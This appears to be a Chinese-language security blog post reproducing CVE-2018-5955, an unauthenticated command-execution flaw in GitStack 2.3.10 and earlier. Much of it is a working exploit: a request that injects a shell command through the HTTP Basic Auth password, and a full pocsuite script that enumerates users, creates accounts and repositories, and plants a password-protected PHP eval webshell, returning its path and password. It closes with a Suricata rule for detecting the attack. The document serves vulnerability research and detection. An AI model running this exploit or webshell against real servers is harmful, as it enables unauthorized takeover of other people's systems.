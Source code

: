 ```yaml
---
layout: post
title:  "GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞（CVE-2018-5955）"
date:   2019-8-3 10:30:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞
cover: '/assets/img/posts/gitstackcover.png'
---
```


## GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞

### 漏洞概述

该漏洞主要是通过以下几个漏洞同时利用达到远程命令执行效果：

* 用户相关
  
  用户列表信息泄露、任意用户添加、任意用户密码修改

* Project 相关
  
  未授权条件下可以任意创建 project

* HTTP Basic Authentication 
  
  HTTP Basic Authentication 认证过程中的漏洞，通过该漏洞，结合创建的 project 与用户名密码即可实现命令执行（文件上传）

### 漏洞环境搭建

下载 Gitstack 2.3.10 版本进行安装

### 漏洞复现

#### 用户相关 rest_user

1.使用 GET 方式可以直接查看 GitStack 仓库的用户列表，存在未授权访问信息泄露漏洞   
直接访问http://ip/rest/user 即可获取 gitstack 库中的所有用户  

2.通过 POST 方法，指定 username 和 password 可以直接添加仓库用户，存在任意用户添加漏洞  

```plain
URL：http://ip/rest/user/
POST：username=test_username&password=test_passwd
```

#### project 相关

1.通过 POST 一个带有 CSRF_TOKEN 的 name 值即可创建一个以 name 值命名的 project![创建project](/assets/img/posts/gitstack-1.png)

CSRF_TOKEN 存在于 http://ip/registration/login/?next=/gitstack/ 的源码中

![nihao](/assets/img/posts/gitstack-2.png)

2.任意 project 添加 user

只需要向 http://ip/rest/repository/ 传递 new__project 和 new_username 的值即可在名为 new_project 的项目中创建名为 new_username 的用户 

```bash
POST http://ip/rest/repository/new_projectname/user/new_username/
```

![任意 project 添加 user](/assets/img/posts/gitstack-3.png)

#### 命令执行（文件上传）

通过 HTTP Basic Authentication 认证过程中的漏洞，发送如下请求即可实现命令执行，以上传文件为例子

```python
requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST['a']); ?>" > c:GitStackgitphpexploit.php'))
```

## EXP

该 EXP 使用 pocsuite 框架格式编写 

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pocsuite.api.poc import register,Output, POCBase
from requests.auth import HTTPBasicAuth
import requests,urlparse,random,os,sys,hashlib,string


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _attack(self):
        result = {}
        target = self.url
        hostname = urlparse.urlparse(target).hostname
        port = urlparse.urlparse(target).port
        if port is None:
            target = target+":80"
        repository = ''.join(random.sample(string.digits+string.ascii_letters,4))
        username = ''.join(random.sample(string.digits+string.ascii_letters,4))
        password = ''.join(random.sample(string.digits+string.ascii_letters,4))
        csrf_token = ''.join(random.sample(string.digits+string.ascii_letters,4))
        user_list = []
        r_getuser = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r_getuser.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r_create_user = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r_getrepo = requests.get("{}/rest/repository/".format(target))
        repository_list = r_getrepo.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r_post_csrftoken = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r_create_user = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r_del_user = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        random_shell_pass = ''.join(random.sample(string.ascii_letters+string.digits,5))
        webshell = 'p && echo " <?php @eval($_POST['+random_shell_pass+']);echo"'+random_identify_code+'";?>" > c:'
        r_create_file = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, "{}".format(webshell)+random_file_name))
        test_url = target+"/web/"+random_file_name
        r_attack = requests.get(test_url)
        if (r_attack.status_code == 200):
            if (random_identify_code in r_attack.text):
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['ShellPath'] = test_url
                result['VerifyInfo']['ShellPasswd'] = random_shell_pass
            pass
        return self.parse_output(result)

    _verify = _attack

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)
```

### 流量分析

```bash
alert http any any -> any any (msg: "GitStack Arbitrary PHP upload RCE (CVE-2018-5955)"; flow: established, to_server; content: "/web/index.php?"; http_uri; content: ".git"; distance: 0; http_uri; content: "Authorization:"; http_header; nocase; content: "Basic"; distance: 0; http_header; nocase; pcre: "/Basic\s+/i"; reference: cve, CVE-2018-5955; classtype: attempted-admin;  sid: 30000045; rev: 1;)
```

首先对访问目录 /web/index.php?p=adasdad.git 的流量进行分析，判断 http_header 中是否存在 Authorization 且其中包含 Basic  + 一串 base64 值，如果满足上述条件即可判定存在攻击行为


